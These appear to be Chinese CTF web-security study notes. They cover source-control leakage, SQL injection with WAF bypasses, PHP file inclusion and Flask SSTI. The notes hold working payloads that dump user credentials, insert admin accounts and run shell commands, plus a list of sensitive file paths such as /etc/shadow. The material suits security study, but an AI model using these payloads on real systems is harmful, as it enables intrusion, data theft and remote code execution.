

# Git泄漏

git是一个主流的分布式版本控制系统，开发人员在开发过程中经常会忘记删除`.git`文件 导致攻击者可以通过`.git`文件夹中的信息获取开发人员提交过的代码

## 常规git泄漏

可以通过`dirsearch`等工具进行扫描，探测是否有`.git`目录，在确定存在后可以使用`scrabble`工具,也可以使用`Githack`或者是`dvcs-ripper`

```
# scrabble
./scrabble http://example.com/.git

# githack
python2 githack.py http://example.com/.git

# ripper
./rip-git.pl -v -u http://www.example.com/.git/
```

可以拿到源码，源码中可能存在flag,或者仅仅是找到了进入下一步的钥匙

## git回滚

git会记录每一次的commit记录，所以有的时候flag或者是hint会被存在以前的版本中，我们使用以下指令回滚到上一个版本

```
git reset --hard HEAD^
```

或者用以下命令查看每次commit修改了哪些文件

```
git log --stat
```

然后通过commit id比对不同

```
git diff HEAD <commit-id>
```

或者可以不写`HEAD`直接

```
git diff <commit-id>
```

## git分支

有时flag并不在当前的分支，可能在其他分支中，这个时候需要用功能强的`Githacker`(https://github.com/WangYihang/GitHacker)

clone下来之后我们

```
git log -all
或者
git branch -v
```

只可以看到master分支的信息，所以我们需要

```
git reflog
```

可以看到一个checkout记录，看到其他的分支信息，比如存在一个分支名称为`secret`,我们需要去手动下载`secret`分支的head信息，保存到`.git/refs/heads/secret`中

```
wget http://example.com/.git/refs/heads/secret
```

我们可以直接复用`Githack`的`fixmissing`函数,我直接从中提取脚本`git branch.py`，不然每次都要修改代码挺麻烦的

```pyth
import os
import re
import threading
import requests
log = []


threadNumber = 50

def downloadFile(url, path):
    if url in log:
        print("[-] Downloaded!")
    else:
        log.append(url)
    index = path[::-1].find("/")
    folder = path[0:-index]
    try:
        print("[+] Make dir : %s" % (folder))
        os.makedirs(folder)
    except:
        print("[-] Folder already existed!")
    print("[!] Getting -> %s" % (url))
    response = requests.get(url)
    if response.status_code == 200:
        with open(path, "wb") as f:
            f.write(response.content)
            print("[+] Success!")
    else:
        print("[-] [%d]" % (response.status_code))

class myThread (threading.Thread):
    def __init__(self, imgSrc, directoryName):
        threading.Thread.__init__(self)
        self.imgSrc = imgSrc
        self.directoryName = directoryName

    def run(self):
        downloadFile(self.imgSrc, self.directoryName)

def get_sha1(content):
    result = re.findall(r"([a-fA-F0-9]{40})", content)
    return result

def fixmissing(baseurl, temppath):
    # get missing files
    os.system("cd ./%s ; git fsck > ../cache.dat 2>&1" % temppath)
    missing = []
    with open("./cache.dat", "r") as f:
        missing += get_sha1(f.read())

    length = len(missing)
    # clean cache file
    os.system("rm ./cache.dat")
    threads = []
    # download missing files
    for i in missing:
        path = "./%s/.git/objects/%s/%s" % (temppath, i[0:2], i[2:])
        url = "%sobjects/%s/%s" % (baseurl, i[0:2], i[2:])
        # downloadFile(url, path)
        tt = myThread(url, path)
        threads.append(tt)

    for t in threads:
        t.start()
        while True:
            if(len(threading.enumerate()) < threadNumber):
                break

    if length > 1:
        fixmissing(baseurl, temppath)
    else:
        return

def complete_url(baseurl):
    if (not baseurl.startswith("http://")) and (not baseurl.startswith("https://")):
        baseurl = "http://" + baseurl
    if baseurl.endswith("/"):
        return baseurl
    else:
        return baseurl + "/"

def get_prefix(baseurl):
    prefix = ""
    if baseurl.startswith("http://"):
        prefix = baseurl[len("http://"):-len(".git/")]
    if baseurl.startswith("https://"):
        prefix = baseurl[(len("https://")):(-len(".git/"))]
    return prefix
def replace_bad_chars(path):
    path = path.replace("/", "_")
    path = path.replace("\\", "_")
    path = path.replace(".", "_")
    path = path.replace("'", "_")
    path = path.replace("\"", "_")
    return path
if __name__ == '__main__':
    base_url = complete_url('http://127.0.0.1/.git')
    temp_path = replace_bad_chars(get_prefix(base_url))
    fixmissing(base_url,temp_path)
```

## git stash

使用githack clone项目，仍然发现git log有add flag

```
commit d272e57c5e193885d9e87d580be6c60198f0a6cc (HEAD -> master)
Author: CTFHub <sandbox@ctfhub.com>
Date:   Sat Aug 21 15:58:53 2021 +0000

    remove flag

commit 27008c4baff10b093fd4af890b7464b75c942fc7
Author: CTFHub <sandbox@ctfhub.com>
Date:   Sat Aug 21 15:58:53 2021 +0000

    add flag

commit 5585b23b55f7cf181bd1f757715d2365d3a5e645
Author: CTFHub <sandbox@ctfhub.com>
Date:   Sat Aug 21 15:58:53 2021 +0000

    init
```

尝试获取版本差异，未获取到flag

**方法一**

获取stash,`stash`命令可用于临时保存和回复修改，**可跨分支**。

我们可以查看到有stash

```
stash@{0}: WIP on master: 27008c4 add flag
```

我们使用以下命令获取stash

```
git stash pop
```

得到

```
冲突（修改/删除）：211892831419447.txt 在 Updated upstream 中被删除，在 Stashed changes 中被 修改。211892831419447.txt 的 Stashed changes 版本被保留。
贮藏条目被保留以备您再次需要。
```

此时目录下已经有了211892831419447.txt

```
cat 211892831419447.txt
```

得到flag

**方法二**

获取stash对应的hash

```
cat .git/refs/stash
```

得到hash

```
65ea98382c2567be65e3c1058c07bf9c6d4202ef
```

然后我们显示差异

```
git diff 65ea9
```

得到flag

## git 其他利用

- `.git/config`文件中可能含有access_token信息


# SVN泄漏

可以用`dirsearch`工具扫描确认`.svn`目录是否存在

可以直接用`dvcs-ripper`

```
# ripper
./rip-svn.pl -v -u http://www.example.com/.svn/
```

# HG泄漏

可以用`dirsearch`工具扫描确认`.hg`目录是否存在

可以直接用`dvcs-ripper`

```
# ripper
./rip-hg.pl -v -u http://www.example.com/.hg/
```

# 备份文件

## gedit备份文件

gedit编辑文件后，当前目录下会生成一个后缀为`~`的文件，比如`flag.txt~`，使用浏览器访问这个文件就可以得到内容

## vim备份文件

vim编辑后会生成一个`flag.txt.swp`，我们可以使用vim来恢复

```
vim -r flag.txt.swp
```

vim还可能产生

- .swp
- .swo
- .swn
- 等等

## 常规文件

- robots.txt
- readme.md
- www.zip等备份文件

# Banner信息

可以直接使用Wappalyzer插件

# SQL注入

## Mysql

五种注入

- 布尔型盲注：根据返回页面判断条件真假
- 时间型盲注：用页面返回时间是否增加判断是否存在注入
- 基于错误的注入：页面会返回错误信息
- 联合查询注入：可以使用union的情况下
- 堆查询注入：可以同时执行多条语句

同时，也有可能在UA处 Referer处 Cookie处存在注入

## 使其报错

- 英文单引号
- 英文双引号

## 万能密码测试

- ' or 1=1#

## 判断语句

- or 1=1--+
- 'or 1=1--+
- "or 1=1--+
- )or 1=1--+
- ')or 1=1--+
- ") or 1=1--+
- "))or 1=1--+

此处的`--`为注释，+为占位，也可以通过%20(空格的URL编码)来替代，因为地址栏空格不会进入mysql语句，或者可以直接用%23（#）进行注释，或者使用单双引号本身来进行闭合操作

## Information_schema

### 三个常用表

#### Schemata

SCHEMA_NAME:数据库名

#### tables

TABLE_SCHEMA:数据库名

TABLE_NAME:表名

#### columns

TABLE_SCHEMA:数据库名

TABLE_NAME:表名

COLUMN_NAME:字段名

## 爆数据库(schemata)

```sql
http://192.168.154.131/sqli/Less-1/?id=-1' union select 1,group_concat(schema_name),3 from information_schema.schemata--+
```

数据库名.表名：information_schema.schemata

## 爆表名(tables)

```sql
http://192.168.154.131/sqli/Less-1/index.php?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+
```

where 之后的条件用来筛选选中的数据库

table_schema为数据库名

table_name为表名

## 爆字段(columns)

```sql
http://192.168.154.131/sqli/Less-1/index.php?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+
```

## 爆数据

由上面的处理已知存在数据表users,users下有username和password两个字段

所以可以构造语句

```sql
http://192.168.154.131/sqli/Less-1/index.php?id=-1' union select 1,group_concat(username),group_concat(password) from users--+
```

查询所有结果或者通过id来查询指定的结果

```sql
http://192.168.154.131/sqli/Less-1/index.php?id=-1' union select 1,username,password from users where id=2--+
```

## 常用函数

group_concat(schema_name)可以查出所有的数据库名

## 盲注

盲注为不会把查询结果返回到前端的注入

### 爆数据库名长度

数据库名security八位，到>=9的时候会错误，此为Bool盲注

```sql
http://192.168.154.131/sqli/Less-5/index.php?id=2' and length(database())>=8 %23
```

确定数据库名长度为八位

### 逐位爆数据库

```sql
http://192.168.154.131/sqli/Less-5/index.php?id=2' and substr(database(),1,1)='s' %23
```

`substr`函数为截取字符串，从第一个字符开始，只返回一个

此步骤比较繁琐，建议使用工具，比如BurpSuite

或者可以采用ascii码猜解

```sql
and ord(substr(database(),1,1))=115
```

### 逐位爆表名

```sql
http://192.168.154.131/sqli/Less-5/index.php?id=2' and substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e' %23
```

limit为从第0位开始，查询第一位，也就是第一个表名

### 逐位爆列名

```sql
http://192.168.154.131/sqli/Less-5/index.php?id=2' and substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='i' %23
```

### 爆数据同理

```sql
http://192.168.154.131/sqli/Less-5/index.php?id=2' and substr((select username from security.users where id='1' limit 0,1),1,1)='d' %23
```

## 报错注入

```sql
' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
```

有时可能需要将'去掉'

## 延时盲注

时间型盲注 [#](https://wiki.wgpsec.org/knowledge/web/sql-injection.html#时间型盲注)

盲注是在SQL注入攻击过程中，服务器关闭了错误回显，单纯通过服务器返回内容的变化来判断是否存在SQL注入的方式 。

可以用`benchmark`，`sleep`等造成延时效果的函数。

如果`benkchmark`和`sleep`关键字被过滤了，可以让两个非常大的数据表做[笛卡尔积 (opens new window)](https://blog.csdn.net/qq_32763643/article/details/79187931)产生大量的计算从而产生时间延迟；例如使用[`heavy query` (opens new window)](https://www.anquanke.com/post/id/104319)进行延时注入

或者利用复杂的正则表达式去匹配一个超长字符串来产生时间延迟。

**1、利用sleep判断数据库名长度**

```sql
' and sleep(5) and 1=1--+    页面返回不正常，延时5秒
' and sleep(5) and 1=2--+    页面返回不正常，不延时

and if(length(database())>1,sleep(5),1)
--if(条件表达式，真，假) --C语言的三目运算符类似
```

**2.取数据库名**

```sql
and if(substr(database(),1,1)='a',sleep(5),1)--+
```

### 时间型盲注的加速方式 [#](https://wiki.wgpsec.org/knowledge/web/sql-injection.html#时间型盲注的加速方式)

**1、Windows平台上的Mysql可以用DNSlog加速注入**

**2、利用二分查找法**

sqlmap盲注默认采用的是二分查找法

> - 利用 ASCII 码作为条件来查询，ASCII 码中字母范围在65~122之间
> - 以这个范围的中间数为条件，判断payload中传入的 ASCII 码是否大于这个中间数
> - 如果大于，就往中间数122这块查找。反之亦然

## 堆叠注入

  在SQL中，分号（;）是用来表示一条sql语句的结束。试想一下我们在 ; 结束一个sql语句后继续构造下一条语句，会不会一起执行？因此这个想法也就造就了堆叠注入。而union injection（联合注入）也是将两条语句合并在一起，两者之间有什么区别么？区别就在于union 或者union all执行的语句类型是有限的，可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。例如以下这个例子。用户输入：1; DELETE FROM products服务器端生成的sql语句为： Select * from products where productid=1;DELETE FROM products当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。

```
1';show tables()#
```

```
show columns from `table;--+
```

## 二次注入

有的时候在写入的时候，恶意字符被转义，正常进入数据库保存

```sql
INSERT INTO wp_users VALUES(2,'admin\'or\'1')
```

数据库保存的内容为

```
admin 'or' 1
```

当用需要SELECT这条语句的地方就会触发

```sql
SELECT * FROM wp_users WHERE username='admin'or'1';
```


## Waf绕过

### 空格过滤

可以使用`/**/`来代替空格

1. ${IFS}替换
2. $IFS$1替换
3. ${IFS替换
4. %20替换
5. <和<>重定向符替换
6. %09,%0a,%0b,%0c,%0d,%a0替换

### 将关键词替换为空

双写关键词`selselectect`

### 大小写绕过

selEct -- oR

### 十六进制绕过

select -- selec\x74

### 双重url编码绕过

or ---  %25%36%66%25%37%32

### 正则匹配select

```
set @sql=concat('s','elect `flag` from `1919810931114514`');PREPARE stmt1 FROM @sql;EXECUTE stmt1;#
```

或者

```
/*!50000select*/
```

### 过滤引号

可以用`\`使引号逃逸

如果有

```php
$sql = "SELECT * FROM wp_news WHERE id = 'a' AND title = 'haha'"
```

可以构造

```php
$sql = "SELECT * FROM wp_news WHERE id = 'a\' AND title = 'OR sleep(1)'"
```

后面的title处的语句就可以逃逸，成功执行

### addslashes

这个函数开启会转义特殊字符

可以通过编码绕过，比如base64,urldecode进行转移，这个时候参数处于编码状态，无法被转义

### 一些可控点

- 上传文件的文件名
- http header

### 长度截断

假设

```php
substr($title,0,10);
```

构造

```
title=aaaaaaaaa'或者\
```

正好十位，`'`被转义成`\'`，

都会变成

```
aaaaaaaaa\
```

恰好可以转义语句本身的单引号

```SQL
insert.php?title=aaaaaaaaa\&content=,1,1),(3,4,(select pwd from user limit 1),1) %23
```


# 注入点

## SELECT

```SQL
SELECT select_expr FROM table_references 
```

### 注入点在select_expr

```sql
SELECT $_GET['id'],content FROM wp_news
```

可以调用

```
test.php?id=(select pwd from users) as title
```

或者盲注

### 注入点在table_reference

```sql
SELECT title,content FROM $_GET['table']
```

我们可以使用

```sql
SELECT title,content FROM (SELECT pwd as title FROM wp_user)
```

### 注入点在WHERE或者HAVING后

```sql
SELECT title FROM wp_news WHERE id=$_GET['id']
```

基本注入方法

### 注入点在GROUP BY 或ORDER BY 后

```sql
SELECT title FROM wp_news GROUP BY $_GET['title']
```

经过测试

```
title=id desc,(if(1,sleep(1),1))
```

会延迟一秒，可以延迟注入

### 注入点在LIMIT后

使用UNION注入，PROCEDURE注入(Mysql<5.6)或者基于时间的注入

## INSERT

```SQL
INSERT INTO tbl_name VALUES()
```

### 注入点位于tbl_name

```sql
INSERT INTO $_GET['table'] VALUES (2,2,2,2)
```

可以直接控制表名插入新管理员

```
?table=wp_user values(2,'newadmin','newadmin') %23
```

### 注入点位于VALUES

```sql
INSERT INTO wp_user VALUES (2,2,'username','1')
```

如果后面对应的是管理员标识，闭合单引号和括号，即可多添加一条语句

```
?is_admin=1'),(2,2,'admin','0') %23
```


即可插入一个新的管理员

```sql
INSERT INTO wp_user VALUES (2,2,'username','1'),(2,2,'admin','0')
```

或者在新闻添加等位置插入查询语句

```
INSERT INTO wp_user VALUES (2,2,'username','SELECT pwd FROM wp_user LIMIT 1')
```

然后在对应输出的地方就可以看到查询的pwd

## UPDATE

```sql
UPDATE wp_user SET id=2 WHERE user = '23'
```

如果id可控，即可修改多个字段内容，甚至user也是可控的

## DELETE

```sql
DELETE FROM wp_news WHERE id=$_GET['ID']
```

为了保证不影响正常数据，通常使用'AND SLEEP(1)保证为FALSE,后续就是时间盲注

## 其他利用

- load_file读文件
- into outfile写马

# 任意文件读取

## php

常见的可以利用的函数有`file_get_content()`,`file()`,`fopen()`,`fread()`,`include()`,`require()`,`include_once()`,`require_once`,`system()`,`exec()`,等，还有一些扩展库，比如`php-curl`扩展（文本内容最后Http Body）涉及文件存取的库(数据库，图片相关扩展)、xml造成的XXE等

与其他语言不同，PHP打开文件不是简单的一个路径，而是一个文件流，比如访问`http://host:port/xxx`后，就能通过http协议访问到对应的文件，而在php中还有很多协议，在这里统称为`Wrapper`，其中最具特色的是`php://`协议，除了`Wrapper`,PHP中还有一个机制叫做`Filter`，起作用是对目前的Wrapper进行一定的处理

`Filter`特性给我们进行任意文件读取提供了很多便利，假设服务端`include`函数的路径参数可控，正常情况下它会将文件当作PHP文件去解析，如果目标文件中存在`<?php`等php标签，那么标签中的内容会作为php代码执行，如果直接进去，就会导致php代码外的文本内容暴露，可以使用`Filter`避免

有关于php代码执行共有三种情况

1. 文件路径前面可控，后面不可控
2. 文件路径和后面可控，前面不可控
3. 文件路径中间可控

在第一种情况中，可以使用00截断，如果存在上传功能，可以尝试利用`zip`或者`phar`协议进行文件包含从而执行

第二种情况，我们而可以用`../`进行目录穿越，但是这种情况下不能使用`Wrapper`,如果调用的是`include`等函数，我们无法获取到代码内容

第三种与第一种相似，但是无法利用`Wrapper`进行文件包含

### include

```
php://filter/read=convert.base64-encode/resource=flag.php
```

如果遇到一些奇怪的关键字限制

```php
if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){   //必须含有woofers或meowers或index字符串
　　　　　　include ($file . '.php');  //参数后拼接.php
}
```

两种方案，第一种是使用00截断

```
http://6bf8e619-2004-4945-8cf0-1b438d58e4c2.node4.buuoj.cn:81/index.php?category=php://filter/read=convert.base64-encode/resource=flag%00woofers
```

实测可以截断成功但是include出现了一些问题，暂时还不知道为什么，echo出来的参数是没有截断的，但是报错信息给出来的是可以截断的，这个问题暂时放一下

第二种方案是把关键字加在前面

```
http://6bf8e619-2004-4945-8cf0-1b438d58e4c2.node4.buuoj.cn:81/index.php?category=php://filter/read=convert.base64-encode/woofers/resource=flag
```

或者使用php://input，使用post传参数<?php system('ls') ?>

### file_get_content

file_get_content()这个函数不可以读变量的值，但是可以通过传入伪协议读文件,比如直接读flag文件

```
data://text/plain;base64,SSBsb3ZlIFBIUAo=
```

### phra

使用如下方法

```
file.php?file=phar://upload/46a1b93b4756841e1169e9cf9ebf3ecf.jpg
```

## Python

问题常常是因为Python函数的feature,如`os.path.join()`

```python
>>> os.path.join("/a","/b")
'/b'
```

很多卡发着通过判断用户传入的路径是否包含`.`来判断是否有目录穿越，随后将`join()`的第二个参数传为用户的输入，如果用户传入`/`，则依然可以实现文件读取

### SSTI模板注入

https://xz.aliyun.com/t/3679

正常的flask模板渲染

```python
# temple
<html>
  <head>
    <title>{{title}} - 小猪佩奇</title>
  </head>
 <body>
      <h1>Hello, {{user.name}}!</h1>
  </body>
</html>

#app.py
@app.route('/')
@app.route('/index')#我们访问/或者/index都会跳转
def index():
   return render_template("index.html",title='Home',user=request.args.get("key"))
```

但是会有程序员偷懒，用占位符操作

```python
def test():
    template = '''
        <div class="center-content error">
            <h1>Oops! That page doesn't exist.</h1>
            <h3>%s</h3>
        </div> 
    ''' %(request.url)
```

下面这种方式就会造成模板注入

我们尝试一下本地环境分析

在python中，一切类都是继承于object

```
>>> print("".__class__)
<class 'str'>
```

对于一个空字符串他已经打印了str类型，在python中，每个类都有一个bases属性，列出其基类。现在我们写代码

```
>>> print("".__class__.__bases__)
(<class 'object'>,)
```

或者

```
>>> print("".__class__.__mro__)
(<class 'str'>, <class 'object'>)
```

接下来我们使用subclasses() 这个方法，这个方法返回的是这个类的子类的集合，也就是object类的子类的集合

```
>>> print("".__class__.__bases__[0].__subclasses__())
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_reverseitemiterator'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, <class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>, <class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, <class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>, <class 'function'>, <class 'mappingproxy'>, <class 'generator'>, <class 'getset_descriptor'>, <class 'wrapper_descriptor'>, <class 'method-wrapper'>, <class 'ellipsis'>, <class 'member_descriptor'>, <class 'types.SimpleNamespace'>, <class 'PyCapsule'>, <class 'longrange_iterator'>, <class 'cell'>, <class 'instancemethod'>, <class 'classmethod_descriptor'>, <class 'method_descriptor'>, <class 'callable_iterator'>, <class 'iterator'>, <class 'pickle.PickleBuffer'>, <class 'coroutine'>, <class 'coroutine_wrapper'>, <class 'InterpreterID'>, <class 'EncodingMap'>, <class 'fieldnameiterator'>, <class 'formatteriterator'>, <class 'BaseException'>, <class 'hamt'>, <class 'hamt_array_node'>, <class 'hamt_bitmap_node'>, <class 'hamt_collision_node'>, <class 'keys'>, <class 'values'>, <class 'items'>, <class 'Context'>, <class 'ContextVar'>, <class 'Token'>, <class 'Token.MISSING'>, <class 'moduledef'>, <class 'module'>, <class 'filter'>, <class 'map'>, <class 'zip'>, <class '_frozen_importlib._ModuleLock'>, <class '_frozen_importlib._DummyModuleLock'>, <class '_frozen_importlib._ModuleLockManager'>, <class '_frozen_importlib.ModuleSpec'>, <class '_frozen_importlib.BuiltinImporter'>, <class 'classmethod'>, <class '_frozen_importlib.FrozenImporter'>, <class '_frozen_importlib._ImportLockContext'>, <class '_thread._localdummy'>, <class '_thread._local'>, <class '_thread.lock'>, <class '_thread.RLock'>, <class '_io._IOBase'>, <class '_io._BytesIOBuffer'>, <class '_io.IncrementalNewlineDecoder'>, <class 'posix.ScandirIterator'>, <class 'posix.DirEntry'>, <class '_frozen_importlib_external.WindowsRegistryFinder'>, <class '_frozen_importlib_external._LoaderBasics'>, <class '_frozen_importlib_external.FileLoader'>, <class '_frozen_importlib_external._NamespacePath'>, <class '_frozen_importlib_external._NamespaceLoader'>, <class '_frozen_importlib_external.PathFinder'>, <class '_frozen_importlib_external.FileFinder'>, <class 'zipimport.zipimporter'>, <class 'zipimport._ZipImportResourceReader'>, <class 'codecs.Codec'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <class 'codecs.StreamReaderWriter'>, <class 'codecs.StreamRecoder'>, <class '_abc._abc_data'>, <class 'abc.ABC'>, <class 'dict_itemiterator'>, <class 'collections.abc.Hashable'>, <class 'collections.abc.Awaitable'>, <class 'types.GenericAlias'>, <class 'collections.abc.AsyncIterable'>, <class 'async_generator'>, <class 'collections.abc.Iterable'>, <class 'bytes_iterator'>, <class 'bytearray_iterator'>, <class 'dict_keyiterator'>, <class 'dict_valueiterator'>, <class 'list_iterator'>, <class 'list_reverseiterator'>, <class 'range_iterator'>, <class 'set_iterator'>, <class 'str_iterator'>, <class 'tuple_iterator'>, <class 'collections.abc.Sized'>, <class 'collections.abc.Container'>, <class 'collections.abc.Callable'>, <class 'os._wrap_close'>, <class '_sitebuiltins.Quitter'>, <class '_sitebuiltins._Printer'>, <class '_sitebuiltins._Helper'>, <class 'types.DynamicClassAttribute'>, <class 'types._GeneratorWrapper'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class 'itertools.accumulate'>, <class 'itertools.combinations'>, <class 'itertools.combinations_with_replacement'>, <class 'itertools.cycle'>, <class 'itertools.dropwhile'>, <class 'itertools.takewhile'>, <class 'itertools.islice'>, <class 'itertools.starmap'>, <class 'itertools.chain'>, <class 'itertools.compress'>, <class 'itertools.filterfalse'>, <class 'itertools.count'>, <class 'itertools.zip_longest'>, <class 'itertools.permutations'>, <class 'itertools.product'>, <class 'itertools.repeat'>, <class 'itertools.groupby'>, <class 'itertools._grouper'>, <class 'itertools._tee'>, <class 'itertools._tee_dataobject'>, <class 'operator.itemgetter'>, <class 'operator.attrgetter'>, <class 'operator.methodcaller'>, <class 'reprlib.Repr'>, <class 'collections.deque'>, <class '_collections._deque_iterator'>, <class '_collections._deque_reverse_iterator'>, <class '_collections._tuplegetter'>, <class 'collections._Link'>, <class 'functools.partial'>, <class 'functools._lru_cache_wrapper'>, <class 'functools.partialmethod'>, <class 'functools.singledispatchmethod'>, <class 'functools.cached_property'>, <class 'contextlib.ContextDecorator'>, <class 'contextlib._GeneratorContextManagerBase'>, <class 'contextlib._BaseExitStack'>, <class 'enum.auto'>, <enum 'Enum'>, <class 're.Pattern'>, <class 're.Match'>, <class '_sre.SRE_Scanner'>, <class 'sre_parse.State'>, <class 'sre_parse.SubPattern'>, <class 'sre_parse.Tokenizer'>, <class 're.Scanner'>, <class 'typing._Final'>, <class 'typing._Immutable'>, <class 'typing.Generic'>, <class 'typing._TypingEmpty'>, <class 'typing._TypingEllipsis'>, <class 'typing.Annotated'>, <class 'typing.NamedTuple'>, <class 'typing.TypedDict'>, <class 'typing.io'>, <class 'typing.re'>, <class 'importlib.abc.Finder'>, <class 'importlib.abc.Loader'>, <class 'importlib.abc.ResourceReader'>, <class 'rlcompleter.Completer'>]
```

接下来就是我们需要找到合适的类，然后从合适的类中寻找我们需要的方法。这里开始我们不再用pycharm打印了，直接利用上面我们已经搭建好的漏洞环境来进行测试。通过我们在如上这么多类中一个一个查找，找到我们可利用的类，这里举例一种。<class 'os._wrap_close'>，os命令相信你看到就感觉很亲切。我们正是要从这个类中寻找我们可利用的方法，通过大概猜测找到是第119个类，0也对应一个类，所以这里写[118],这个os类，需要具体情况具体分析找

```
"".__class__.__bases__[0].__subclasses__()[118]
```

然后我们找到各种方法

```
"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__
```

最终调用popen方法

```
"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()
```

#### 过滤绕过

ctf中的一些绕过tips

没什么系统思路。就是不断挖掘类研究官方文档以及各种能够利用的姿势。这里从最简单的绕过说起。

1.过滤[]等括号

使用gititem绕过。如原poc
```
{{"".class.bases[0]}}
```

绕过后
```
{{"".class.bases.getitem(0)}}
```
2.过滤了subclasses，拼凑法

原poc
```
{{"".class.bases[0].subclasses()}}
```
绕过 
```
{{"".class.bases[0]'subcla'+'sses'}}
```

3.过滤class

使用session

poc 
```
{{session['cla'+'ss'].bases[0].bases[0].bases[0].bases[0].subclasses()[118]}}
```

多个bases[0]是因为一直在向上找object类。使用mro就会很方便


```
{{session['__cla'+'ss__'].__mro__[12]}}
```
或者
```
request['__cl'+'ass__'].__mro__[12]}}
```

可以用这个网站将python代码转为一行

```
http://www.onelinerizer.com/
```


#### 一些poc

```
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )

object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')

{{request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]['__in'+'it__']['__'+'glo'+'bal'+'s__']['__bu'+'iltins__']['ev'+'al']('__im'+'port__("os").po'+'pen("ca"+"t a.php").re'+'ad()')}}
```


## Java

除了Java本身的文件读取函数`FileInputStream`,`XXE`导致的文件读取，Java的一些模块也支持`file://`协议，比如`CVE-2019-3799`，`CVE-2018-1999022`等等

## Ruby

通常与Rails框架有关，比如`CVE-2016-0652`,`CVE-2018-2760`,`CVE-2019-5418`,`CVE-2016-0752`等

## 中间件/服务器相关

### Nginx配置错误

经常搭配python-web一起出现，因为Nginx一般被是为Python-web反向代理的最佳实现

比如

```
location /static{
	alias /home/myapp/static/;
}
```

以上配置通常是为了让用户可以访问到static目录，如果用户请求的是`/static../`，拼接到alias上就是

```
/home/myapp/static/../
```

**这种通常出现在目录结构直接显示的情况下，比如**



### 数据库我的

`load_file()`和`load data infile`

### 软链接

在Linux中，`ln -s`可以创建一个软链接文件，我们把这个文件上传到服务器，就实现了访问服务器上的这个软链接

### FFmpeg

几乎不会见到

## 客户端相关

### 浏览器/Flash XSS

一般来说，很多浏览器会禁止Js代码读取本地文件的相关操作

### Markdown XSS

md编辑器也具有一定的解析js的能力

## 文件读取常见路径

```
/etc/passwd
/etc/shadow
/etc/fstab
/etc/host.conf
/etc/motd
/etc/ld.so.conf
/var/www/htdocs/index.php
/var/www/conf/httpd.conf
/var/www/htdocs/index.html
/var/httpd/conf/php.ini
/var/httpd/htdocs/index.php
/var/httpd/conf/httpd.conf
/var/httpd/htdocs/index.html
/var/httpd/conf/php.ini
/var/www/index.html
/var/www/index.php
/opt/www/conf/httpd.conf
/opt/www/htdocs/index.php
/opt/www/htdocs/index.html
/usr/local/apache/htdocs/index.html
/usr/local/apache/htdocs/index.php
/usr/local/apache2/htdocs/index.html
/usr/local/apache2/htdocs/index.php
/usr/local/httpd2.2/htdocs/index.php
/usr/local/httpd2.2/htdocs/index.html
/tmp/apache/htdocs/index.html
/tmp/apache/htdocs/index.php
/etc/httpd/htdocs/index.php
/etc/httpd/conf/httpd.conf
/etc/httpd/htdocs/index.html
/www/php/php.ini
/www/php4/php.ini
/www/php5/php.ini
/www/conf/httpd.conf
/www/htdocs/index.php
/www/htdocs/index.html
/usr/local/httpd/conf/httpd.conf
/apache/apache/conf/httpd.conf
/apache/apache2/conf/httpd.conf
/etc/apache/apache.conf
/etc/apache2/apache.conf
/etc/apache/httpd.conf
